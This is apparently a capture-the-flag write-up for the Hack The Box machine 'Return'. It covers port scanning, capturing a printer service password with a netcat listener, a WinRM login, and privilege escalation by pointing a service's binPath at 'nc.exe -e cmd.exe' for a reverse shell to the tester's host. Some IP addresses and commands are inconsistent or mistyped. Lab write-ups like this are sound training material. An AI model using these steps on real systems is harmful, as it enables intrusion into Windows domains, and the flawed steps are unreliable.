 # Hack The Box - Return

## Ininital info gathering

### Nmap scan

> nmap -sC -sV 10.10.11.108

> PORT     STATE SERVICE       VERSION
> 53/tcp   open  domain        Simple DNS Plus
> 80/tcp   open  http          Microsoft IIS httpd 10.0
> | http-methods: 
> |_  Potentially risky methods: TRACE
> |_http-server-header: Microsoft-IIS/10.0
> |_http-title: HTB Printer Admin Panel
> 88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-09 00:59:53Z)
> 135/tcp  open  msrpc         Microsoft Windows RPC
> 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
> 389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return. local0., Site: Default-First-Site-Name)
> 445/tcp  open  microsoft-ds?
> 464/tcp  open  kpasswd5?
> 593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
> 636/tcp  open  tcpwrapped
> 3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
> 3269/tcp open  tcpwrapped
> Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

> Host script results:
> |_clock-skew: 18m36s
> | smb2-security-mode: 
> |   2.02: 
> |_    Message signing enabled and required
> | smb2-time: 
> |   date: 2022-02-09T01:00:11
> |_  start_date: N/A

### Enumeration with enum4linux

> Domain Name: RETURN
> Domain Sid: S-1-5-21-3750359090-2939318659-876128439
> [+] Host is part of a domain (not a workgroup)

## The hack

### Setup netcat listner on ldap port 389

> nc -lvnp 389

### Change the server address on settings page

"On Settings page of http://10.10.11.108 change Server Address to 10.10.11.108 and hit update"

#### Output

> 1edFg43012!!

### Run evil-winrm on Port 5985 WinRm

> evil-winrm -i 10.10.10.233 -u svc-printer -p '1edFg43012!!'

## Privilege escalation

### Admin accounts

> net localgroup administrators

"Shows, "Administrator" and "Domain Admins" and "Enterprise Admins"

### Run commands to try and gain foothold

> net user return\svc-printer P@ssword123!

"Access denied..."

### View user permissions

> net user svc-printer

"Able to stop and stop services. Also a part of Domain Users."

### Upload service binary to obtain reverse shell

#### While on PS session with svc-printer user account

> upload /usr/share/windows-resources/binaries/nc.exe

> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.60 1234"

### Throw up a netcat listner on your machine

> nc- lvnp 1234

#### Stop and start the vvs service on the PS session

> net stop vss
> net start vss

# Boom you got an admin shell

